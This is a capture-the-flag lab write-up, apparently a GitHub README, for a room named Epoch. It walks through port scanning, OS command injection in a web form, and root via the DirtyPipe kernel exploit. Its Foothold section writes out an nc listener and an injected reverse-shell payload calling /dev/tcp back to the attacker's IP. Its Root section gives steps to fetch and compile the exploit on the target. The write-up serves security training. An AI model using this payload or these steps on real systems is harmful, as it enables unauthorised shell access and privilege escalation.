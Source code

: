 <h1>writeup-Epoch</h1>
<img src="./img/logo.png" alt="logo" width="700">
<blockquote><h3>
    The room description suggests tha there is a vulnerable WebApplication, So let's start the machine and check out the WebApplication.
    The room also suggests Command Injection so maybe that's the vulnerability in the WebApplication.
</h3></blockquote>
<br>

<ol>
    <li>
        <h2>Reconnaissance</h2>
        <ul>
            <li>
                <h3>Port Scanning</h3>
                <ul>
                    Rustscan result :
                    <ul>
                        <code>Open 10.10.215.48:22 - ssh</code><br>
                        <code>Open 10.10.215.48:80 - http</code>
                    </ul>
                </ul>
            </li>
            <li><h3>SSH</h3>
                <ul><code>
                    OpenSSH 8.2p1 Ubuntu 4ubuntu0.4
                </code></ul>
            </li>
            <li><h3>WebPage</h3>
                <ul>
                    <img src="./img/webPage.png" alt="webPage" width="500"><br>
                </ul>
            </li>
        </ul>
    </li><br>
    <li>
        <h2>Foothold</h2>
        <ul>
            <li>
                <h3>SSH</h3>
                <ul>Brute forcing ssh with hydra will definitely fail and it's not the main objective 
                    of this room so let's move on to the WebApplication.</ul>
            </li>
            <li>
                <h3>WebApplication</h3>
                <ul>
                    We will start with Command Injection because the room description suggests that.
                    Let's try some command injection tricks from <a href="https://book.hacktricks.xyz/pentesting-web/command-injection">hacktricks</a>. <br>
                    <img src="./img/webPage2.png" alt="webPage2" width="500"><br>
                    Now that we know command injection works, let's get a shell.
                    <ul>
                        <li>Step 1:
                            <ul>
                                Start a nc listener.<br>
                                <code>nc -lvnp 1234</code>
                            </ul>
                        </li>
                        <li>Step 2:
                            <ul>
                                Enter your reverse shell command in the input field with command injection vulnerability and click on <code>Convert</code>.<br>
                                <code>|| sh -i >& /dev/tcp/YourIP/1234 0>&1</code><br>
                                You will get a reverse shell.
                            </ul>
                        </li>
                    </ul>
                    <h2>
                        You can find your flag using <code>env</code>.
                    </h2>
                </ul>
            </li>
        </ul>
    </li>
    <li>
        <h2>Root</h2>
        <ul>
            <li>
                <h3>Things i tried and didn't work :</h3>
                <ol>
                    <li>
                        <code>sudo -l</code>
                        <ul>
                            <code>sh: 2: sudo: not found</code>
                        </ul>
                    </li>
                    <li>
                        <code>find / -type f -perm -04000 2>/dev/null</code>
                        <ul>Nothing intresting here</ul>
                    </li>
                    <li>
                        crontab
                        <ul>
                            <code>No such file or directory</code>
                        </ul>
                    </li>
                </ol>
            </li>
            <li>
                <h3>Thing that did work :</h3>
                <ul>
                    <code>uname -a</code> will show you that this machine is running on <code>linux kernel version 5</code> which might be vulnerable to <code>DirtyPipe</code>.
                    So heres how we will exploit that.
                    <li>
                        Step 1:
                        <ul>Download <a href="https://www.exploit-db.com/exploits/50808">DirtyPipe</a> exploit code on your local machine.</ul>
                    </li>
                    <li>
                        Step 2:
                        <ul>Start python server on your machine and download the exploit on target machine in <code>/tmp</code> directory.</ul>
                    </li>
                    <li>
                        step 3:
                        <ul>
                            compile and execute the executable using <code>gcc</code>.
                        </ul>
                    </li>
                </ul>
                <img src="./img/root.png" alt="root" width="500">
            </li>
        </ul>
    </li><br>
</ol>